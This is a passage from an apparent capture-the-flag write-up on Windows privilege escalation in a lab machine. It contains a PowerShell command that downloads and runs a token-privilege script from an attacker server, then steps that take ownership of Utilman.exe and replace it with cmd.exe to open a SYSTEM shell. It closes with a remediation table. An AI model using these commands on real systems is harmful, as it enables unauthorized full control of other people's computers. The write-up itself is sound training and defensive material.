We can use the PowerShell script [EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1). We serve it from our attacker HTTP server on port 445 and load it into memory:

```bash
C:\Windows\system32>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.130.95:445/EnableAllTokenPrivs.ps1');
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeRestorePrivilege            Restore files and directories            Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
PS C:\Windows\system32>
```

`SeTakeOwnershipPrivilege` and `SeRestorePrivilege` are now `Enabled`.

---

### 7.3 Hijacking the Utilman.exe Accessibility Binary

With `SeTakeOwnershipPrivilege` active, we can hijack accessibility binaries on the system. The classic target is `C:\Windows\System32\Utilman.exe` (Ease of Access / Utility Manager). 

When a user clicks the Ease of Access button on the Windows lock screen, the system executes `Utilman.exe` under the context of **`NT AUTHORITY\SYSTEM`**. If we replace `Utilman.exe` with `cmd.exe`, clicking that button pops a SYSTEM shell directly on our desktop.

First, we take ownership of `Utilman.exe`:

```bash
PS C:\Windows\system32> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "EXFILIBUR\kingarthy".
```

Next, we grant our user `kingarthy` Full Control permissions over the binary:

```bash
PS C:\Windows\system32> icacls C:\Windows\System32\Utilman.exe /grant kingarthy:F
processed file: C:\Windows\System32\Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

Now we overwrite `Utilman.exe` with a copy of `cmd.exe`:

```bash
PS C:\Windows\system32> copy cmd.exe Utilman.exe
```

---

### 7.4 Spawning the SYSTEM Shell & Collecting the Root Flag

We lock our Windows session from the Start Menu:



Back on the lock screen, we click the **Ease of Access** icon in the lower-right corner:



Instead of the accessibility menu, an interactive command prompt opens up directly on the screen, running under the context of **`NT AUTHORITY\SYSTEM`**.

We head over to the Administrator's desktop and read the root flag:



- **Administrator Flag:** `THM{STOP_ABUSING_PRIVILEGES_IN_CAMELOT}`

---

## 8. Remediation & Defensive Takeaways

| Finding | Root Cause | Practical Fix |
| :--- | :--- | :--- |
| **Outdated BlogEngine.NET Deployment** | BlogEngine 3.3.7.0 contains multiple unpatched, publicly known vulnerabilities (CVE-2019-10717, CVE-2019-11392, CVE-2019-10719). | Decommission or replace legacy CMS platforms. Migrate to an actively maintained framework with automated security patching. |
| **Permissive XML Entity Parsing** | The APML syndication endpoint resolves external entities by default without restricting DTD processing. | In .NET XML parsers (`XmlDocument`, `XmlTextReader`), always configure `DtdProcessing = DtdProcessing.Prohibit` and set `XmlResolver = null` to neutralize XXE vectors. |
| **Executable ASP.NET Control Uploads** | The application permits upload of `.ascx` files into web-accessible directories, and allows path traversal via the `theme` cookie. | Disallow the upload of executable extensions (`.ascx`, `.aspx`, `.ashx`). Configure IIS request filtering to block execution in upload paths, and strictly validate theme selections against a hardcoded whitelist. |
| **Weak Password Storage & Cleartext Leaks** | Unsalted SHA-256 hashes make offline dictionary attacks trivial. Sensitive domain passwords were left in unpublished blog drafts. | Upgrade password storage to a modern, salted, adaptive function like Argon2id or PBKDF2. Implement DLP checks to prevent credentials from being stored in web drafts. |
| **Weak Outbound Firewall Rules (Port 445)** | The perimeter firewall dropped outbound HTTP traffic but permitted outbound SMB/TCP 445 connections to arbitrary external IPs. | Implement strict default-deny egress filtering. Block outbound SMB (TCP 445, 137-139) at the boundary firewall to prevent data exfiltration and NTLM relaying. |
| **Insecure Accessibility Binary Replacement** | Users holding `SeTakeOwnershipPrivilege` can claim ownership of and overwrite system accessibility binaries (`Utilman.exe`, `sethc.exe`). | Enable Windows Defender Tamper Protection and enforce File Integrity Monitoring (FIM) on core `System32` binaries to alert on unauthorized DACL or file replacements. |
